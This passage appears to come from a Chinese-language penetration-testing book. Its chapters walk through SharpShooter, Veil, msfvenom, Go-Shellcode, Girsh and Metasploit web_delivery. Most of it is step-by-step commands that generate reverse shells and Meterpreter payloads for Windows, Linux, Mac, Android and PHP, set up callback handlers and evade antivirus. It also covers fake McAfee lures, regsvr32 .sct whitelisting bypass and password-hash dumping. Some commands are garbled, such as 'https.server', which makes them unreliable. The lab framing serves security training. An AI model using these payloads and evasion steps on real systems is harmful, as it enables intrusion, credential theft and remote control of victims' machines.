话不多说，让我们实际操作一下！

### 2. 启动 Apache 2 Web 服务器。

> ➢ `sudo service apache2 start`

### 3. 将输出文件拷贝到 `/var/www/html` 目录（或直接从输出目录启动 Python Simple Server）。


### 4. 现在启动 Metasploit 进行回连。

> ➢ `msfconsole`
> ➢ `use multi/handler`
> ➢ `set payload windows/meterpreter/reverse_http`
> ➢ `set LHOST 172.24.1.146`
> ➢ `set LPORT 5555`
> ➢ `exploit`

### 5. 在 Windows 目标系统上，打开浏览器并访问 test.html 文件。


注意，我们看到了一个伪造的 McAfee “您的电脑是安全的”消息，让目标用户觉得一切正常。如果他们打开或保存并运行该文件，我们就获得一个 Shell！


如果我们将 SharpShooter 的选项更改为 `--template sharepoint` 并重新生成负载，就会得到这个：


SharpShooter 是一个非常有用的工具！正如前面提到的，在编写本文时存在一些代码问题，但这些问题可能后来已经得到了纠正。接下来是介绍 Veil Framework！

## Veil Framework

工具作者：Chris Truncer
工具 GitHub：[`github.com/Veil-Framework/Veil`](https://github.com/Veil-Framework/Veil)

Veil Framework 是一个名为 Veil Evasion 的旧工具的更新版本。这曾是我过去规避杀毒软件（AV）的常用工具之一。尽管之后它的更新不再那么频繁，并且会被某些反病毒软件拦截。它是一个很棒且易于使用的工具，所以我决定对它进行简单介绍。如果你愿意，可以尝试一下，但要注意结果可能会参差不齐。

> ➢ `sudo apt install veil`
> ➢ `sudo /usr/share/veil/config/setup.sh --force -silent`

安装完成后，直接启动 veil

> ➢ `sudo veil`

这些命令非常像 Metasploit，我们将从使用 Evasion 开始，只需输入：

> ➢ `use 1`


我们现在可以使用 `list` 命令列出所有负载：


我们将使用 C Sharp 负载。

在编写本文时，它是 `11) cs/meterpreter/rev_tcp.py`

> ➢ 输入 “use 11”


我们需要为该模块设置一些选项。首先是 IP 和端口，就像 Metasploit 负载一样。我们还将将 `SLEEP` 选项设置为 10，并使用 `ARYA` 加密器来获得额外的 AV 绕过能力。最后，我们需要生成负载。

> ➢ `set LHOST [Kali_IP]`
> ➢ `set LPORT 5555`
> ➢ `set SLEEP 10`
> ➢ `set USE_ARYA Y`
> ➢ `generate`


生成完成后，它会创建几个输出文件：


我们需要做的只是将 csharp 文件拷贝到目标机器，并使用 `csharp.rc` 文件启动 Metasploit Handler。

### 使用 RC 文件启动 Metasploit：

> ➢ `msfconsole -r /var/lib/veil/output/handlers/csharp.rc`


现在在目标 Windows 系统上运行 `.exe` 文件，我们就获得了一个 Shell


> ➢ 输入 “sessions -I 1” 与我们的新会话进行交互
> ➢ 输入 “shell” 如果你想使用远程 shell 终端：


搞定！我们现在拥有了针对 Windows 目标的完整 meterpreter shell！

## 结论

SharpShooter 和 Veil Framework 都是很了工具，但它们都开始显示出年代感了。两者都很久没有更新，而且 SharpShooter 的某些功能（在编写本文时）似乎运行并不正常。经过多次尝试才让所示的两个 SharpShooter 示例正常运行。尽管如此，它们仍然是用于使用和学习的优秀工具。我强烈建议读者查看它们。

## 资源与参考

> ➢ ¹使用 SharpShooter 生成负载 - [`www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/`](https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/)
> ➢ ²再次用于黑入 Excel 的 SLK 文件 - [`office-watch.com/2020/slk-files-hack-excel-again/`](https://office-watch.com/2020/slk-files-hack-excel-again/)
> ➢ SharpShooter GitHub - [`github.com/mdsecactivebreach/SharpShooter`](https://github.com/mdsecactivebreach/SharpShooter)

# 第 24 章

## Msfvenom

当攻击者创建恶意利用代码或“shellcode”时，他们有多种选择。攻击者可以使用许多自动化工具，既有付费也有免费的。高级攻击者会手写自定义代码，对其进行混淆和加密，因此非常难以被检测和分析。攻击者倾向于使用 FUD 加密器或“完全不可检测”加密工具，以便输出代码能够绕过反病毒软件和系统防御。在公共互联网和暗网上有许多 FUD 加密器可用。

在我们开始讨论规避反病毒软件之前，我们需要介绍 shellcode。shellcode 是运行后会创建某种连接的代码。……现在我们看到了使用了多种语言。C# 和 Go 是比较流行的。在本章中，我们将学习如何使用 Metasploit 的 Msfvenom 创建 shellcode。

### Msfvenom - 创建 Shellcode

我们将使用 `msfvenom` 命令创建 shell code 文件，并将命令拷贝到 Windows 计算机。然后，我们需要设置 Kali 系统以监听来自远程文件的连接。如果一切正常，我们将获得一个与目标的会话。

1.  > 打开终端并输入 `msfvenom`:


为了创建我们的 shell 文件，我们需要选择一个平台、负载（payload）以及可选的编码器（encoder）。`Msfvenom` 还支持特殊功能，帮助它绕过反病毒软件，甚至将我们的 shellcode 添加到现有文件中。

你可以使用 `-l` 列表开关列出所有可用模块，包括：

> ➢ `msfvenom -l payloads` - 显示所有 500 多个可用负载
> ➢ `msfvenom -l encoders` - 显示所有编码器
> ➢ `msfvenom -l formats` - 列出可用的输出文件类型，种类非常多！

花几分钟查看一下可能的组合。某些用于执行特定任务，如创建用户，但另一些更具破坏性，例如 `windows/format_all_drives`（又名 ShellcodeOfDeath），它在执行时会格式化远程目标上的所有挂载磁盘。

### 分阶段负载 (Staged) 与单阶段负载 (Single)
当你查看负载列表时，你会发现某些负载的名称非常相似。

示例：

> 分阶段 - `Windows/shell/[payload_name]`
> 单阶段 - `Windows/shell_[payload_name]`

名称中带有正斜杠的 shell 是分阶段负载，带有下划线的是单阶段负载。它们的区别在于，分阶段负载是一个两步过程：初始文件是一个加载器（loader），它会导致系统下载第二部分或分阶段负载。单阶段负载则包含了它所需的所有内容。通常使用分阶段负载，但在某些情况下，单阶段负载会非常有用。其中一种可能性是目标是一个物理隔离网络，你需要负载是自包含的并一次性运行所有。

在使用 `Msfvenom` 时，我们将从命令行创建 shell。我们还需要打开一个运行 `Meterpreter` 的终端以处理入站的会话。保持两个终端窗口并排打开可能会帮助——一个是运行 `Msfvenom` 命令的普通终端，另一个是运行 `Meterpreter` 处理器的终端，如下所示：

[](images/00516.jpg)

### Msfvenom - 简单反弹 Shell
让我们使用 Windows 2019 Server 或 Windows 10 系统作为目标创建一个简单的反弹 shell。在本示例中，我们只需让目标系统通过远程 shell 连接回我们。我们将使用 `windows/shell/reverse_tcp` 负载。我们只需要为负载设置 Kali 系统的回连 IP 地址和端口。我们还希望 shell 是一个 Windows 可执行文件（`.exe`），因此我们的命令将是：

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f exe > revshell.exe
```

> ➢ `-p` 是我们的负载
> ➢ `LHOST` & `LPORT` 设置 Kali 的 IP 地址和端口
> ➢ `-f exe` 设置输出格式
> ➢ `> revshell.exe` 将生成的 shellcode 获取并存储在名为 `revshell.exe` 的文件中。

运行此命令将创建我们的 shellcode 文件：


将 `revshell.exe` 文件复制到我们的目标 Windows 系统。在现实生活中，攻击者极可能会使用某种社交工程攻击，例如将 shellcode 文件包含在看起来正式的电子邮件中以诱导受害者运行。对于我们的目的，你只需要在 Kali 系统和 Windows 虚拟机之间拖放文件即可。

现在，回到 Kali 系统，我们将创建一个处理器来监听入站连接。

> ➢ 在终端中输入 `msfconsole` 启动 `msfconsole`，或者从主菜单选择它：`08-Exploitation Tools> Metasploit Framework`


然后输入以下内容：

> ➢ `use multi/handler`
> ➢ `set payload windows/shell/reverse_tcp`
> ➢ `set LPORT 4444`
> ➢ `set LHOST [Kali_IP]`
> ➢ `run`

现在在 Windows 系统上运行 `revshell.exe` 文件，我们将在 Kali 中看到这个：


一个远程 shell！请注意，一旦文件在 Windows 系统上被打开，它就会连接到我们的 Kali 系统，我们的多处理器回答了连接并发送了负载的第二阶段。这直接把我们带入了远程 DOS shell。

要退出 shell 并返回 Metasploit，只需输入 `exit`，然后再次输入 `exit` 返回到终端提示符。

### Msfvenom - 反弹 Meterpreter Shell
远程 DOS 命令 shell 虽然很不错，但正如我在《基础 Kali》一书中所看到的，如果我们有一个 `Meterpreter` shell，就可以做更多事情。我们可以使用所有内置工具和模块来利用机器，甚至将系统作为跳板来深层攻击目标网络。

使用 `msfvenom` 创建 `Meterpreter` shell 与我们的第一个示例几乎相同。只需选择 `Meterpreter` 负载而非 shell。

1. 输入：
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f exe > metshell.exe
```
如下所示：


2. 将生成的文件复制到你的 Windows 系统上。
3. 在 Kali 系统上启动 Metasploit。
4. 使用 `windows/meterpreter/reverse_tcp` 负载创建并运行多处理器。
> ➢ `use multi/handler`
> ➢ `set payload windows/meterpreter/reverse_tcp`
> ➢ `set LHOST [Kali_IP]`
> ➢ `set LPORT 4444`
> ➢ `run`


5. 在 Windows 系统上运行 `Metshell.exe` 文件。

我们应该会在 Kali 系统上看到打开的 `Meterpreter` 会话：


在 `Meterpreter` 提示符下输入 `help` 查看可用命令：


花一两分钟尝试 `help` 中找到的某些命令。完成后，输入 `exit` 退出会话。

### Msfvenom - 基于 PowerShell 的 shellcode
PowerShell 是微软内置的命令行脚本环境。它经常被系统管理员用于网络或工作站管理，但也可以被具有恶意意的人使用。让我们来看创建一个基于 PowerShell 的 shellcode。从可用的负载中，我们将使用 `cmd/windows/reverse_powershell` 并将其输出为 `.bat` 文件（在本例中为 `pwrshell.bat`）。

1. 输入 `msfvenom -p cmd/windows/reverse_powershell LHOST=[Kali IP] > pwrshell.bat`


2. 将生成的文件复制到你的 Windows 系统上。
3. 在 Metasploit 中设置多处理器：
> ➢ `use multi/handler`
> ➢ `set payload cmd/windows/reverse_powershell`
> ➢ `set LPORT 4444`
> ➢ `set LHOST [Kali IP]`
> ➢ `run`

4. 现在在你的 Windows 测试系统上执行该批处理文件，你应该会在 Metasploit 中看到创建一个远程会话：


注意，由于这是一个 `cmd` shell，它直接把我们带入远程 DOS 提示符。如果是 `meterpreter` shell，它将带我们进入 meterpreter 提示符。让我们来看 `pwrshell.bat` 文件。


注意文件中包含了运行所需的所有内容。再次运行 msfvenom，这次使用 `-f raw` 关，并将其保存为 `pwrshell.raw`。

如下所示：


查看文件并将其与 `pwrshell.bat` 文件进行比较。注意它们完全相同。情况并非总是如此。如果你运行 msfvenom 并想查看负载的 `raw` 版本，你可以随时使用 `-f raw` 关来检查。这当你只需要利用代码用于另一个程序或 AV 工具时特别有用。

### Msfvenom - Linux Python Meterpreter Shell
好了，我们看了一些 Windows shellcode，那么针对 Linux 机器的呢？Metasploit 中有多个 Linux 负载可用。让我们创建一个基于 Python 的。

1. 输入 `msfvenom -p python/meterpreter/reverse_tcp LHOST=[Kali IP] LPORT=4444 > pyshell.py`

如下所示：


注意创建 Linux 的 shellcode 与创建 Windows 的并没有区别，我们只需要更改负载即可。监听也是如此，我们仍然可以使用多处理器，只需要在 Metasploit 中设置正确的负载。如下一步所示。

2. 使用 `python/meterpreter/reverse_tcp` 负载启动监听：


（注意：由于某种原因，我需要设置两次 LHOST，该负载才会接受它）

3. 将文件复制到 Ubuntu Mutillidae 系统，并在终端中使用 `python3 pyshell.py` 运行它。


一旦执行，我们就能在 Kali 系统上获得一个完整的 Meterpreter shell（shell）：


如果我们输入 `sysinfo`，可以看到我们确实连接到了 Ubuntu 机器：


我知道，作为一个创建漏洞利用的安全专业人员，准则是——“永远不要将 shell 上传到 VirusTotal！”

但如果你真的做了，你会看到这个：


只有一家杀毒厂商检测出该 shell 是恶性的——微软！我知道，大多数杀毒厂商都会为微软的产品开发产品，但这引发了你的思考。

## Msfvenom - Mac OSx Meterpreter Shell

你可以在 Mac 上使用 Python 负载，但也可以使用特定的 OSx Meterpreter 负载。这会启动一个 OSx 版本的 Meterpreter，它包含针对 OSx 的特定命令。

> ➢  `msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f macho > MacShell`


启动你的 Multi/Handler，使用 OSx 负载。在 Mac 上复制并运行该文件。我们就得到了一个 shell。


## Android Meterpreter Shell

我们可以同样轻松地为 Android 创建远程 shellcode。这与其他负载之间并没有太大区别。只需选择一个 Android 负载，输入你的 Kali IP 和端口，并使用 `Raw` 格式创建 Android 负载。最后，在 Metasploit 中启动 multi-handler，使用相同的负载。

如下所示：


### Msfvenom - 使用 PHP Shell

最后，让我们快速看一眼使用 msfvenom 的 PHP 负载进行的网站攻击。我将向你展示命令和结果，但不用担心；我们将在“Web 应用程序”章节中更详细地介绍这类攻击。

1.  > 通过输入 `msfvenom` 命令来创建一个 PHP 文件：`msfvenom -p php/reverse_php LHOST=[Kali_IP] LPORT=4444 -f raw > phpshell.php`


对于负载，我们选择了反向 PHP shell。按照习惯，我们设置了 Kali 系统的 IP 地址和想要使用的端口。这创建了我们的 PHP shellcode 文件。

2.  > 现在将 `phpshell.php` 文件上传到我们的有漏洞网站上。只需将该 PHP 文件复制到你的 Ubuntu Mutillidae 目录（`/opt/lampp/htdocs/mutillidae`）。


此外，确保 Xampp 正在运行：


3.  > 为 PHP 负载启动 handler 服务：


4.  > 浏览到有漏洞的 Mutillidae 网站，并在 Kali 浏览器中执行 PHP 命令：


在 Metasploit 中我们看到了这个：


通过使用基于 PHP 的负载，我们能够在有漏洞的 Web 服务器上获取远程 shell！

## Msfvenom - 修改 shellcode 文件类型

根据漏洞利用程序的不同，我们可以将 shellcode 输出更改为几种不同的编程语言。如果我们有一个针对某种环境的漏洞，但需要将其转换为另一种环境，这就会非常有用。

例如，如果我们获取原始的 Linux/x86/shell/reverse_tcp shellcode：

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=[Kali IP] LPORT=4444 -f raw
```

我们看到了默认代码：


如果我们从行尾删除 `-f raw` 并改用 `-f python`，就会得到这个：


或者使用 `-f perl`：


最后，许多人偏好 `-f dll`。反射 DLL 注入（Reflective DLL injection）是许多渗透测试人员常用的方法。`-f dll` 选项创建一个 DLL 负载，它可以直接注入内存并在后台运行。

正如你所见，更改输出的文件类型修改了输出的 shellcode。这些只是一些简单的例子。为了让代码在不同格式下运行，你可能需要添加额外的代码或以某种方式对它们进行处理，以确保 shellcode 执行执行。

## 在 Meterpreter 中生成 Shells

你还可以在 Metasploit 中通过 `Generate` 命令生成 Windows 可执行文件 shell。该命令具有以下选项：


让我们使用我们最喜欢的 reverse_tcp shell 快速尝试一个示例。我们将让 `Generate` 获取我们的 Meterpreter 设置并创建一个名为 `reversetcp.exe` 的 Windows 可执行版本 shell。

在 Kali 的 Metasploit 内部输入：

> ➢  use payload/windows/meterpreter/reverse_tcp
> ➢  set LHOST [Kali_IP]
> ➢  set LPORT [Port]
> ➢  generate -f exe -o reversetcp.exe

如下所示：


Meterpreter Reverse_TCP 负载的可执行版本被存储在根目录下。

现在在 Kali 上启动一个 Multi/Handler 来接收传入的连接：

> ➢  use multi/handler
> ➢  set payload windows/meterpreter/reverse_tcp
> ➢  set LHOST [Kali IP Address]
> ➢  set LPORT 5555
> ➢  run

现在在 Windows 虚拟机上运行 `reversetcp.exe` 文件。


我们得到了一个 shell！

让你的 shellcode 绕过那个讨厌的杀毒程序始终是一个挑战。更新后的 Windows Defender 会阻止本章提到的任何基于 Windows 的 shell。尽管 Linux shell 对基础 Linux 系统仍然运行良好。我还没有提到过使用 msfvenom 的编码（encoder）选项。该选项允许你选择不同的编码器来混淆 shellcode。过去我花了很多时间与一位退役军网络安全专家研究不同的编码器和编码通过。我们看到的问题是，如果杀毒软件检测到了它，通常尝试不同的编码器、多个编码器或多次加密迭代并没有产生很大影响。杀毒软件通常仍然检测到它。你必须修改交付机制，这通常需要自定义编程。

## 结论

如你所见，msfvenom 是创建一个 shellcode 的非常强大的工具。诚然，在现实生活中，攻击者并不总是顺利。更新的操作系统和补丁可以消除某些 shell，当然，杀毒软件可以阻止许多知名的 shell，即使它们经过了多层编码。很多时候，杀毒程序只是在文件中寻找特定的字符串。有时这些字符串（很多时候是 ASCII 字符串！）可以简单地修改以绕过杀毒程序。shell code 程序可以使用 PowerShell 或脚本语言，许多杀毒产品并不会将其视为威胁。

在防御此类攻击时，请确保你的网站免受常见的 Web 攻击的影响。同时，要高度警惕使用钓鱼类型方案欺骗你的用户运行 shellcode 文件的社交工程学攻击。指导用户采取这些防御措施是公司安全团队的责任，但当用户落入此类攻击时，也应有适当的网络安全措施。

## 资源与参考文献

> ➢  如何使用 Msfvenom - [`github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom`](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom)


Go-Shellcode 是一个非常优秀的 shellcode 运行器和工具集，由 `Merlin C2` 的作者 `Ne0nd0g` 编写。Go-Shellcode 的优点在于，它允许你使用 Go 和各种 API 调用技术来运行漏洞 shellcode。它速度快，对防病毒软件效果良好，并且允许你使用任何十六进制编码的 shellcode，特别是用 `MSFvenom` 创建的。

确保你的 Kali 系统上安装了 `Go`，然后只需执行：

```
git clone https://github.com/Ne0nd0g/go-shellcode.git
```

安装完成后，你就有了多种方法创建 shellcode。导航到 `go-shellcode/cmd` 目录，你会看到 shellcode 交付技术的列表，每个文件夹一种技术。选择其中一个，查看该工具 GitHub 页面上每种技术的描述。


然后只需修改相应子目录下的 `main.go` 文件，插入你想运行的 shellcode。每种技术默认都带有一个“弹出计算器（Pop Calculator）”shellcode 字符串。

如下：


当然，你不必局限于弹出计算器 shellcode ——尽管我强烈建议在第一次尝试中使用它。你可以按照以下步骤使用任何你十六进制 Shellcode。

1. 使用 `MsfVenom` 创建你的 shellcode，使用文件类型（`-f`）为“hex”。
2. 将其复制并粘贴到代码中，替换现有的 shellcode `DecodeString` 数字字符串。
3. 然后，根据 GitHub 页面上列出的相应技术说明编译 Go 文件。完成后，主目录下将出现一个 Windows `.exe` 文件。
4. 如果是远程 shell，只需确保你已经运行了 `Metasploit multi-handler` 来捕获回连。
5. 最后，将 shellcode 文件复制到目标机器并运行。

代码布局非常漂亮，它让你很容易就能选择你需要的 API 技术，然后只需生成所需的 shellcode 并将其放入即可。

## 早鸟得 Shell (The EarlyBird gets the Shell)

让我们一起运行其中一种技术。我们将使用最新的 `EarlyBird`。若要用默认的“弹出计算器”shellcode 进行尝试，只需在主“go-shellcode”目录下输入以下内容：

```
export GOOS=windows GOARCH=amd64;go build -o popcalc.exe cmd/EarlyBird/main.go
```


这会在 `go-shellcode` 目录下创建 `popcalc` 文件。只需将此文件复制到我们的 Windows 目标服务器并运行。Windows 计算器将打开 —— 你已成功利用可怕的计算器漏洞攻破了系统！如果你从未听过“弹出计算器（Popping Calc）”，这是一个流行的渗透测试员笑话。好了，让我们换另一种 shellcode。在目标机器上弹出一个消息框比弹出计算器要好。我们可以使用 `Msfvenom` 和消息框负载轻松地实现这一点。

首先，生成十六进制负载：

```
msfvenom -p windows/x64/messagebox -f hex
```

使用你喜欢的编辑器打开 `EarlyBird` 目录下的 `main.go` 文件。然后将十六进制代码复制并粘贴到 `main.go` 程序中，替换现有的 `popcalc` 十进制代码。复制整个 HEX 代码，并覆盖（替换）现有的 HEX shellcode 字符串。

如下所示：

```go
// Pop Calc Shellcode (x64)
shellcode, errShellcode := hex.DecodeString("[在此处放置新的十六字符串]”)
if errShellcode != nil {
```

再次生成代码：

```
export GOOS=windows GOARCH=amd64;go build -o message.exe cmd/EarlyBird/main.go
```


将新的 `Message.exe` 文件复制到 Windows 目标并运行。


利用证明 —— 很棒！！好吧，这是一个非常通用的消息，让我们看看能否改进它。让我们看看 ‘messagebox’ 负载。

- 打开另一个终端并启动 Metasploit (`msfconsole`）
- 输入 “info windows/x64/messagebox”


在这里我们看到了关于负载的信息，包括文本（Text）和标题（Title）。这些信息非常通用，所以让我们更改它们。我们可以在使用 `msfvenom` 生成负载时即时设置选项。


我们直接通过 `msfvenom` 命令设置了 `TEXT` 和 `TITLE` 变量。看看是否生效！

- 将新的 shellcode 复制并粘贴到 `main.go` 程序中
- 生成代码，命名为 “Messagebox2.exe”
- 在我们的 Windows 目标上运行：


非常棒！在某些渗透测试或红队行动中，你只需要证明已攻破，所以这种方法可能非常好用。让我们更进一步，使用 Go 程序创建一个 Meterpreter 远程 shell。

首先，我们需要使用 `msfvenom` 生成 shellcode。让我们尝试一种不同的反向 shell，以稍微换换口味，“reverse_winhttp”。

```
msfvenom -p windows/x64/meterpreter/reverse_winhttp LHOST=”[Kali_IP_Address]” -f hex
```


是的，如果你在好奇，你可以可以直接在 Metasploit 中运行 `msfvenom`。

- 将十六进制代码复制并粘贴到 `main.go`
- 生成它，我们使用名称 ‘winhttp.exe’
- `export GOOS=windows GOARCH=amd64;go build -o winhttp.exe cmd/EarlyBird/main.go`

在我们运行之前，我们需要在 Metasploit 中启动一个 Multi-handler 来捕获并响应外连。

在 Metasploit 中：

- use multi/handler
- set payload windows/x64/meterpreter/reverse_winhttp
- set LHOST [Kali_IP]
- exploit -j

现在将 `winhttp.exe` 文件复制到你的 Windows 目标并运行，我们得到了一个远程 shell！


输入 “help” 查看可用的 meterpreter 命令。我们可以上传或下载文件，甚至可以截屏或控制摄像头。如果远程用户是管理员，我们可以运行 meterpreter 命令 “Hashdump” 来获取用户密码哈希值。


“Screenshare” 是一个较新的命令。运行此命令会在 Kali 上打开浏览器，并强制远程系统将桌面实时流传输到 Kali 系统！


我经常使用 Go-Shellcode EarlyBird，它是我最喜欢的 shell 之一。记住，EarlyBird 只是你可以使用的 API 之一，Go-Shellcode 有好几个！

## Girsh - Golang 交互式反向 SHell

**工具作者：** nodauf  
**工具 GitHub：** [`github.com/nodauf/Girsh`](https://github.com/nodauf/Girsh)

Girsh 是一个用 Golang 编写的快速简单的远程终端 shell。Girsh 可以在某些完全补丁和更新的 Windows 系统上运行，取决于它们使用的 AV。它具有绕过 AMSI 并自动使用 ConPTY 生成交互式终端的能力。

### 安装

安装了 Go 后，你只需要从 GitHub 拉取 Girsh 即可。

```
git clone https://github.com/nodauf/Girsh
cd src
go run main.go listen
```

首次运行时它将下载多个依赖项。

- 输入 “menu” 创建反向 shell
- 使用箭头选择接口
- 然后选择 “powershell”


在你的目标系统上复制并运行其中一条命令。

- 要查看可用的会话，输入 “sessions”
- 然后使用 “connect ID#” 命令连接到所需的会话


你将获得一个完全交互的远程 PowerShell 提示符。

## 结论

我经常在网上问到最好的远程访问 shell 是什么？一如既往，自定义代码是绕过防病毒软件的最佳方法。许多红队和大型渗透测试公司都有自己的开发人员负责编写代码或修改漏洞，甚至编写自己的命令与控制平台（C2 Platforms）。这是确保他们不会在目标环境中被检测到的最佳方式。


在本节中，我们涵盖了几种用于绕过杀病毒软件的工具。这是一场真正的猫鼠游戏。每当一个新的绕过方法公开时，杀毒公司就会迅速编写特征来阻止它。作为防御者，你不能仅仅依靠杀毒软件来保护你的公司。目前有一些非常优秀的安全套件，其功能远超标准杀毒软件。网络安全监控（带有全包捕获）也非常有用。它可以帮助检测活动威胁，并在情况糟糕时非常有帮助。我强烈建议检查所有的解决方案，看看哪种最适合你的特定环境。

# 第 26 章：特殊交付 - 交付 Shellcode

现在我们已经知道如何创建 shellcode 了，那么如何交付它呢？在本章中，我们将介绍如何使用 Metasploit 的 `Web Delivery` 模块将有效载荷交付到目标系统。`Web Delivery` 脚本允许你创建到多个目标系统的远程连接。这种交付系统的优之处在于，它不写入磁盘，所有操作都在内存中完成（蓝队训练称之为“无文件恶意软件”），试图绕过杀毒软件。过去几年里，`Web Delivery` 增加了许多新的利用技术，包括 `Regsvr32`（使用 `.sct` 文件和“squiblydoo”技术绕过应用白名单）、`SyncAppvPublishingServer` 使用微软签名的二进制文件请求 PowerShell 脚本，最后，`PSH Binary` 允许你提供自定义的二进制文件（这种技术需要将文件写入磁盘）。

Windows Scriplet 攻击或 `.sct` 文件攻击在几年前变得流行起来。基本上，它们使用 Windows 的 `Regsvr32` 命令远程运行恶意的 Windows 脚本文件。该攻击如果成功，也将绕过应用白名单（AWL）尝试。AWL 用于尝试限制 Windows 系统上哪些文件可以运行以及不能运行。我们将在本章中介绍 `Regsvr32` `.sct` 文件技术，尽管大多数顶级杀毒软件会阻止未经修改的 Metasploit 攻击用法。

Web Delivery 的一个优点是，通过简单更改目标类型和有效载荷，我们就可以用该模块攻击 Windows、Linux 和 Mac 系统。

让我们开始吧！

### 1. 初始化 Metasploit
1. 从主菜单启动 Metasploit，或者在终端中输入 `sudo msfdb init && msfconsole`。


这是“My little Pwny” Metasploit 横幅之一，仅在愚人节的 Metasploit 中，或者当你更改了 Kali Linux 系统日期时可用。

## 2. 配置 Web Delivery
2. 现在输入：
> ➢ `use exploit/multi/script/web_delivery`
> ➢ `set LHOST [Kali IP Address]`
> ➢ `set LPORT 4444`

### 3. 查看目标
3. 输入 `show targets`：


注意我们有几个选项，包括 Python、PHP 和 PSH (PowerShell)。我们的目标是一个 Windows 系统，因此我们将使用 PowerShell。

### 4. 设置目标
4. 输入 `set target 2`

### 5. 设置有效载荷
5. 设置有效载荷，`set payload windows/x64/meterpreter/reverse_tcp`

## 6. 验证选项
6. 你可以使用 `show options` 检查一切看起来是否正常：


### 7. 执行利用
7. 现在输入 `exploit`：


*注意：你也可以使用 `exploit -j`，这允许利用在后台运行*

这将启动一个托管我们有效载荷的监听服务器，然后等待传入的连接。我们只需要做的就是在目标系统上运行生成的 PowerShell 命令。

### 8. 在目标上执行
8. 在 Windows 系统上打开命令提示符，粘贴并执行 PowerShell 命令：


几秒钟后，你应该看到：


一个 meterpreter 会话开启！

### 9. 管理会话
9. 现在按“回车键”，然后输入 `sessions` 列出活动会话。

### 10. 连接到会话
10. 输入 `sessions -i 1` 连接到会话：


我们现在拥有了通目标的 Meterpreter shell：


输入 `exit` 退出活动会话，再次输入 `exit` 退出 Metasploit。

## Regsvr32 攻击
尝试 Regsvr32 攻击：

> ➢ `use exploit/multi/script/web_delivery`
> ➢ `set LHOST [Kali_IP]`
> ➢ `set LPORT 4444`
> ➢ `set payload windows/x64/meterpreter/reverse_tcp`
> ➢ `show targets`
> ➢ `set target 3`


> ➢ 最后，`exploit`

这次，注意我们有一个要在目标 Windows 系统上输入的 `regsvr32` 命令：


当我们在 Windows 系统上运行此命令时，我们得到了 shell！


Metasploit 在此模块在使用 LOLBAS 命令 `regsvr32.exe /s /u /i:file.sct scrobj.dll`。LOLBAS 或“离离攻击攻击”命令是黑客用来执行许多功能的原生系统命令。在这种情况下，它执行来自脚本中的代码并尝试绕过应用白名单。

[`lolbas-project.github.io/lolbas/Binaries/Regsvr32/`](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)

这在 MITRE ATT&CK 框架中也被涵盖技术 T1218.010

[`attack.mitre.org/techniques/T1218/010/`](https://attack.mitre.org/techniques/T1218/010/)

我们将在本章稍后讨论更多关于 LOLBAS 命令。

### 那么 Mac 呢？
是的，web Delivery 也适用于 Mac 目标。OSX 也没有不同，很多时候你可以使用 Linux 有效载荷（如 Python），但为了获得最佳结果，最好使用 OSX 版本的 Metasploit。没有不同，只需像以前一样使用 web delivery，只是现在选择“Mac OS X”作为目标并使用 OSX 有效载荷：


设置你的 Kali LHOST IP 地址并运行利用。


在 Mac 系统上复制并运行提供的代码，我们得到了一个 shell！


你可以输入 `help` 获取命令列表，甚至可以获取远程截图：


我们得到了一个 Mac 桌面的漂亮截图：


你可以通过多个有效载荷和多个端口打开多个会话。所以，在我们有一个活动 Mac 会话时，尝试 Linux 有效载荷。

## Web Delivery 在 Linux 上同样有效！
如果你正坐在 Meterpreter 提示符前，输入 `background` 以保持会话开启并返回 MSF6 提示符。从 MSF6 提示符开始，我们将设置一个新的目标、新的有效载荷和新端口。我们可以在保持活动 Mac 会话的同时这样做。

在 MSF 提示符下，输入：

> ➢ `set target 7`
> ➢ `set payload linux/x64/meterpreter/reverse_tcp`
> ➢ `set port 5555`
> ➢ `rexploit`

“set target 7” 选择 Linux 作为我们的目标。然后我们设置 Linux 有效载荷。注意我们将端口从之前的 4444 更改为 5555。最后运行 `rexploit`，这类似于 exploit 命令，但它允许在不退出 Metasploit 的情况下再次运行。

如下：


利用运行，并生成在目标 Linux 系统运行的新代码和命令：


这样我们现在有一个可以连接的新会话 (`sessions -i 2`)，不要忘记我们仍然有一个 Mac 会话。

## 挑战时间！
利用我们刚刚涵盖的所有内容，你能获取三个操作系统——Linux、Mac 和 Windows 的活动会话吗？通过使用 `background` 命令（如果你有一个活动 meterpreter 会话）、设置新目标、设置不同的端口和有效载荷，你可以同时获取远程会话！


花时间尝试不同的目标类型和大量的有效载荷，这是非常好的练习！某些有效载荷跨平台，因此你不需要为每种不同的操作系统设置类型和新端口。例如，Python 有效载荷适用于 Linux 和 Mac 目标，但 Linux 和 Mac 的 Meterpreter shell 功能确实略有不同。输入 `exit -y` 退出活动会话，再次输入 `exit` 退出 Metasploit。

### PHP Web Delivery 同样简单
我们可以同样轻松创建 PHP 版本的 Web Delivery。只需将目标设置为 PHP 并将有效载荷设置为 PHP Meterpreter shell 如下：

> ➢ Start Metasploit
> ➢ `use exploit/multi/script/web_delivery`
> ➢ `set payload php/meterpreter/reverse_tcp`
> ➢ `show targets`
> ➢ `set target 1`


> ➢ `set LHOST [Kali_IP]`
> ➢ `set LPORT 4444`
> ➢ `exploit`


> ➢ 在你的 Ubuntu 系统上运行生成的 PHP 命令

我们获得了一个 shell：


我知道，这和我们用 MSFvenom 制作的 PHP shell 相比有点多余，但知道在 Metasploit 中有很多方法可以实现类似的事情是件好事。

## Python 简单服务器

通过 Metasploit 进行 Web 交付只是交付方式之一，还有很多种！你可以使用 Python Simple Server 搭建一个快速简单的 HTTP 交付。进入你想托管文件的目录，运行 Simple Server 即可。该命令在 Python 2 和 Python 3 之间略有不同。

所示：

### Python 3

> ➢ `python3 -m https.server [port]` - 默认端口为 8000

> ➢ `python3 -m https.server --help`


### Python 2

> ➢ `python -m SimpleHTTPServer [port]` - 默认端口为 8000


然后你可以托管自己的文件供下载了！

## LOLBAS

